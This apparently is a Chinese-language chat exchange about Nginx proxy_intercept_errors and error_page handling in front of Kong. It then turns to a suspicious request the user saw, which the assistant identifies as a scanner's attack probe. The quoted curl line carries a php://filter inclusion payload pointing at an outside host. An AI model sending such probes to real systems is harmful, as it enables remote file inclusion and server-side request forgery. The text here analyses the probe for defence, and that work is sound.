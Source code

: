 ⸻

⚠️ 注意事项

注意点	描述
①	必须启用 proxy_intercept_errors on; 才会触发 error_page
②	只会拦截 4xx 和 5xx 错误码，2xx/3xx 正常透传
③	上游必须没有 Content-Length + 响应体过长等情况，否则会冲突
④	若想保留上游响应头，请使用 proxy_pass_request_headers on; 等相关设置，但这会绕开 error_page 流程


⸻

✅ 整体流程（Mermaid）
```mermaid
flowchart TD
    A[Client 请求] --> B[Nginx 第一层]
    B --> C[proxy_pass 到 Kong]
    C --> D{Kong 返回状态}
    D -- 200 OK --> E[直接透传响应]
    D -- 403/500等 --> F[进入 Nginx error_page 流程]

    F --> G[location = /custom_403.html]
    G --> H[返回统一响应头 + 响应体]
```

⸻

✅ 小结

配置项	作用
proxy_intercept_errors on;	拦截 Kong 等 upstream 的错误响应（如 403）
error_page 403 /custom_403.html;	指定本地 Nginx 处理该错误
add_header X-Content-Type-Options "nosniff" always;	添加统一响应头

所以，答案是：是的，开启 proxy_intercept_errors on; 很可能是你目前问题的关键解决手段之一。

如果你希望我进一步帮你根据你当前的 Nginx 和 Kong 实际架构给出精简的完整配置样例，也可以继续发给我你的结构。


对于这种请求
curl -k -I https://www.abc.com/apiname1/v1/.well-known/health?php://filter/resouce=http://pada.abc.me/p/
看起来就是一个非法请求?
因为我看到我们服务配置了Cloud Armor规则会对这个规则进行拦截 这种异常请求如何避



是的，curl -k -I https://www.abc.com/apiname1/v1/.well-known/health?php://filter/resouce=http://pada.abc.me/p/ 这样的请求 **属于“异常请求”或“攻击探测”类型**，常出现在自动化漏洞扫描工具（如 CyberFlows、Burp、Nikto、OWASP ZAP）中。

---

## **✅ 该请求的问题点分析**

  

请求中的参数：

```
?php://filter/resouce=http://pada.abc.me/p/
```
